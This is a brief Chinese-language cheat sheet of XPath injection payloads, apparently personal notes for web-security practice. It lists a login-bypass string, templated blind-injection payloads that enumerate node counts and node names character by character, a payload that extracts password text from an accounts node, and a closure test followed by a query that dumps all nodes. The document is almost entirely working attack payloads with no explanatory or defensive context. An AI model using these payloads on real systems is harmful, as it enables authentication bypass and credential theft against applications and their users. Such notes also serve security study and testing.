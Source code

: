 # 注入示例
	- ```xpath
	  admin' or 1=1 or '
	  ```
	- 爆节点数
		- ```xpath
		  admin' or count(/*)>{} or '
		  ```
	- 爆节点名
		- ```xpath
		  admin' or substring(name(/*),{},1)='{}' or '
		  admin' or substring(name(/root/accounts/*[position()=1]),{},1)='{}' or '
		  ```
	- 爆内容
		- ```xpath
		  admin' or substring(/root/accounts/*[position()=2]/password/text(),{},1)='{}' or '
		  ```
- # 查询所有节点
	- 首先测试闭合：`1']|//*['`
	- 然后直接爆：`1']|//*|//*['`
